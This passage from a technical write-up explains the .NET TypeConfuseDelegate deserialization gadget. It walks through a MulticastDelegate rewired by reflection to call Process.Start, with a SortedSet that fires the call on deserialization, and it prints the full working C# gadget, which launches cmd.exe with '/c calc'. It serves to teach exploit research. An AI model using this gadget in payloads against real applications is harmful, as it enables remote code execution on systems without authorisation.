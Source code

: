Now we have a `MulticastDelegate` which invokes `string.Compare` followed by `Process.Start` whenever the `ComparisonComparer` invokes `Compare`. But we don't have anything that invokes `Compare` yet. This is where `SortedSet` comes in. `SortedSet` is a `Set` that automatically sorts itself each time a new item is added (assuming there are at least two items in total). To do the sorting, it invokes `Compare` on the instance's internal `Comparer` which can be specified by the user, meaning we can supply our `ComparisonComparer`.

![image](lAPvrQAJp9IY.png)

Additionally, and equally important, `SortedSet` can be serialized and upon deserialization it will add the items to a new `SortedSet` instance one by one, effectively triggering the `Compare` function.

![image](rVI7B2IFngQT.png)

So the last few lines of the gadget are the following:

```csharp
// Create a SortedSet with our ComparisonComparer and add two strings
//   which will act as the FileName and Arguments parameters when passed
//   to Process.Start(string FileName, string Arguments)
SortedSet<string> sortedSet = new SortedSet<string>(comparisonComparer);
sortedSet.Add("/c calc");
sortedSet.Add("C:\\Windows\\System32\\cmd.exe");

```

Putting everything together, the whole gadget looks like this:

```csharp
// We delegate `string.Compare` as a new `Comparison<T>`
Delegate stringCompare = new Comparison<string>(string.Compare);

// We create a `MulticastDelegate` by chaining two `string.Compare` methods in a row
Comparison<string> multicastDelegate = (Comparison<string>) MulticastDelegate.Combine(stringCompare, stringCompare);

// We create a `ComparisonComparer` instance using `Comparer.Create` and pass the `MulticastDelegate` that we created as the `Comparison<T>` parameter to the constructor
IComparer<string> comparisonComparer = Comparer<string>.Create(multicastDelegate);

// Get the private field _invocationList, specifying it is a Non-Public, Instance variable
FieldInfo fi = typeof(MulticastDelegate).GetField("_invocationList", BindingFlags.NonPublic | BindingFlags.Instance);

// Get the invocation list from our MulticastDelegate
object[] invoke_list = multicastDelegate.GetInvocationList();

// Overwrite the second delegated function (string.Compare) with Process.Start
invoke_list[1] = new Func<string, string, Process>(Process.Start);
fi.SetValue(multicastDelegate, invoke_list);

// Create a SortedSet with our ComparisonComparer and add two strings
//   which will act as the FileName and Arguments parameters when passed
//   to Process.Start(string FileName, string Arguments)
SortedSet<string> sortedSet = new SortedSet<string>(comparisonComparer);
sortedSet.Add("/c calc");
sortedSet.Add("C:\\Windows\\System32\\cmd.exe");

```
